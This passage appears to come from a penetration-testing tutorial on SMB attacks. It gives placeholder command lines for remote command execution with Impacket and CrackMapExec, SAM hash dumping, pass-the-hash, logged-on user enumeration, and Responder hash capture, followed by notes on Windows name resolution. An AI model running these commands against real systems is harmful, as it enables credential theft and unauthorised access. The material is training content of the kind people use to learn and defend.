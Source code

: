 If this user is an Administrator or has specific privileges, we will be able to perform operations such as:
- Remote Command Execution
- Extract Hashes from SAM Database
- Enumerating Logged-on Users
- Pass-the-Hash (PTH)

To perform a RCE we can download [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) from Microsoft website, or we can use some Linux implementations:
- Impacket [PsExec](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/psexec.py)
- Impacket [SMBExec](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/smbexec.py)
- Impacket [atexec](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/atexec.py)
- [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec)
- Metasploit [PsExec](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/windows/smb/psexec.md)

For example:
```console
zero@pio$ impacket-psexec <USER>:'<PASSWORD>'@<TARGET>
```

The same options apply to **impacket-smbexec** and **impacket-atexec**. With CrackMapExec:
```console
zero@pio$ crackmapexec smb <TARGET> -u <USER> -p '<PASSWORD>' -x 'whoami' --exec-method smbexec
```

> If the `--exec-method` is not defined, CrackMapExec will try to execute the atexec method, if it fails you can try to specify the `--exec-method` smbexec.
{: .prompt-tip}

We can also use it to enumerate loggin users:
```console
zero@pio$ crackmapexec smb <TARGET> -u <USER> -p '<PASSWORD>' --loggedon-users
```

Extract hashes from SAM database:
```console
zero@pio$ crackmapexec smb <TARGET> -u <USER> -p '<PASSWORD>' --sam
```

Pass-the-Hash (PtH):
```console
zero@pio$ crackmapexec smb <TARGET> -u <USER> -H <HASH>
```

We can also abuse the SMB protocol by creating a fake SMB Server to capture users' NetNTLM v1/v2 hashes. The most common tool to perform such operations is the [Responder](https://github.com/lgandx/Responder). Imagine we created a fake SMB server using the Responder default configuration, with the following command:
```console
zero@pio$ responder -I <INTERFACE>
```

On Windows machines, the procedure will roughly be as follows:
1. The hostname file share's IP address is required.
2. The local host file (`C:\Windows\System32\Drivers\etc\hosts`{: .filepath}) will be checked for suitable records.
3. If no records are found, the machine switches to the local DNS cache, which keeps track of recently resolved names.
4. Is there no local DNS record? A query will be sent to the DNS server that has been configured.
5. If all else fails, the machine will issue a multicast query, requesting the IP address of the file share from other machines on the network.
